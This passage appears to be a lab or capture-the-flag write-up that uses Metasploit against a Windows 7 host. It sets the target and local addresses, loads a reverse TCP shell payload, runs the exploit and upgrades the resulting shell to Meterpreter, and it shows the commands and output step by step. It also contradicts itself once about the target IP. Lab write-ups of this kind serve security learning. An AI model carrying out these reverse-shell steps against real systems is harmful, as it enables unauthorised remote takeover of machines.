 Looking at the `Required` options, I can see that `RHOSTS` and `LHOST`are not set. (As I am going through a VPN, I will need to make sure LHOST is set to my VPN address)

**Setting options**   
I need to set `RHOSTS` to be the IP address of the host I am attacking (10.18.72.167)

`set RHOSTS 10.10.125.60`

I need to set `LHOST` to be my IP (10.18.72.167)

`set LHOST 10.18.72.167`

**Running the exploit**   
My end-goal is to get a reverse shell on the server, so before I run the exploit I need to tell metasploit to inject a reverse shell payload:

`set payload windows/x64/shell/reverse_tcp`

I can now run the payload:

`exploit`

This should run the exploit, and drop me in to a shell on the target machine:

```
Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
```

**Extending the exploit**   
In the Windows shell that you have created, send it to the background by typing:

`background`

To upgrade the windows shell to a meterpreter shell, run:   

`use shell_to_meterpreter`

**Meterpreter options**   
Just like exploits, different shells like meterpreter also have options:

`show options`

```
Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on
```
The `LHOST` option is required, but not set. We can set this to our local IP:

`set LHOST 10.18.72.167`
